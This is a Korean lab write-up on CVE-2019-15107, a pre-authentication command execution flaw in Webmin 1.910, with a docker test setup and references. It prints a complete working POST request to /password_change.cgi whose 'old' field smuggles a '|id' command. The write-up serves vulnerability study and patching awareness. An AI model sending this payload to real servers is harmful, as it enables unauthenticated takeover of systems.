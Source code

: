 # Webmin Pre-Auth 원격 코드 실행 취약점 (CVE-2019-15107)

> [류석준 (@seory0)](https://github.com/seory0)

<br>

### 요약
- Webmin은 유닉스 계열 시스템을 위한 웹 기반 시스템 구성 도구
- **비인증 사용자**가 **패스워드 재설정 페이지**를 통해 단순한 POST 요청만으로 임의 명령어를 실행 가능

<br>

### 참고 자료
- <https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107>
- <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
- <https://www.exploit-db.com/exploits/47230>
- <https://blog.firosolutions.com/exploits/webmin/>

<br>

### 환경 구성 및 실행
- 아래 명령어로 테스트 환경 실행
```bash
docker compose up -d
```
- `https://localhost:10000`에 접속하여 Webmin 로그인 페이지 확인(꼭 https로 접속할 것!)
- 다음과 같은 로그인 페이 확인 가능
![Webmin 로그인 페이지](./1.png)
- 다음과 같은 **POST 요청**을 보내면 `id` 명령어가 실행
```http
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```
<br>

### 결과

![Exploit 결과](./2.png)

<br>

### 정리

Webmin 1.910 버전은 인증되지 않은 공격자가 임의로 코드를 실행할 수 있다. POST 요청에 조작된 `old` 파라미터를 삽입하여 시스템 명령어를 실행할 수 있다. 안전한 웹 서비스 운영을 위해 주기적인 웹 서비스 업데이트가 필요하다.
